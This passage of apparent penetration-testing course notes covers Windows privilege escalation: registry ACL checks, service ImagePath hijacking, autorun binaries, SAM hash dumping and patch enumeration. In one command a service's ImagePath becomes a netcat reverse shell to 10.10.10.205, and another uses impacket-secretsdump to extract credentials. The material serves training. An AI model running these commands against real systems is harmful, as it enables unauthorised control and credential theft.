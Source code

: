 ### Permissive Registry ACLs
It is also worth searching for weak service ACLs in the Windows Registry. We can do this using `accesschk`.
```cmd-session
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

#### Changing ImagePath with PowerShell
We can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the `ImagePath` value, using a command such as:
```powershell-session
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
### Modifiable Registry Autorun Binary
#### Check Startup Programs
We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

```powershell-session
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

## Kernel Exploits
It's a big challenge to ensure that all user desktops and servers are updated, and 100% compliance for all computers with security patches is likely not an achievable goal.
Could be Kernel exploits

```shell-session
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```
### Enumerating missing patches
The first step is looking at installed updates and attempting to find updates that may have been missed, thus, opening up an attack path for us.
#### Examining Installed Updates
```powershell-session
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```
```cmd-session
wmic qfe list brief
```
[Microsoft Update Catalog](https://www.catalog.update.microsoft.com/Search.aspx?q=KB5000808)

## Vulnerable Services
We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization.
